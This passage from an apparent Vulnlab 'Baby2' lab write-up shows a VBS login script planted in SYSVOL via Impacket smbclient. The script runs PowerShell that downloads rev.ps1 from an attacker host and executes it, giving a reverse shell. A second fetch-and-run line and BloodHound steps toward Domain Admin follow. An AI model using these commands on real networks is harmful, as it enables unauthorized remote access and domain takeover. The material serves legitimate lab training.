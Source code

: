 #### 4. Profit!
Now to do that on the live machine. There is even a nice [Stackoverflow Discussion](https://stackoverflow.com/questions/11448365/running-powershell-from-vbs-with-command-as-parameter)
that explains how we do that in VBA:

```bash
$ cat login.vbs
CreateObject("WScript.Shell").Run("powershell -c Invoke-RestMethod http://10.8.3.211/rev.ps1 | Invoke-Expression")
```

Now we do the following steps:
1. Start `http.server` containing `rev.ps1`
2. Start netcat listener on port 443
3. Upload login.vbs script via `smbclient`

If everything works as intended we will get a reverse shell! 
Otherwise, we can check our output and fix it.
For debugging we can follow these steps.
1. Webserver has never been reached -> powershell Invoke-RestMethod didn't work
2. Webserver has been reached -> `rev.ps1` broken?

Upload:
```bash
$ smbclient.py "$DOMAIN"/"$USER":"$PASSWORD"@"$TARGET"
Impacket v0.12.0.dev1+20240502.235035.cb8467c - Copyright 2023 Fortra

Type help for list of commands
# use SYSVOL
# cd baby2.vl/scripts
# put login.vbs
```

And we get a reverse shell:
![Reverse shell as amelia.griffiths](/images/vulnlab_baby2/reverse%20shell.png)

In order to prevent stupidity or deadlocks I spawn a second reverse shell on port 444,  where I type all commands.
I use this command and a new netcat listener.
```powershell
Start-Process powershell 'Invoke-RestMethod http://10.8.3.211/rev444.ps1 | Invoke-Expression'
```

## 5. Bloodhound Shenanigan - Abuse ACL's
In bloodhound use the following steps:

First, we press the button `Analysis - Shortest Path to Domain Admin from Owned Principals`.
Since the `RDP` edge is activated, but we don't have credentials, we need to figure out a different approach.

1. Disable the RDP-Edge, since we don't have AD-Credentials
![Edge filtering](/images/vulnlab_baby2/disable_rdp.png)
2. Mark amelia.Griffits as owned
3. `Analysis-Shortest Paths-Shortest Paths to Domain Admins from Owned Principals`
![Shortest Path analysis](/images/vulnlab_baby2/shortest_path.png)
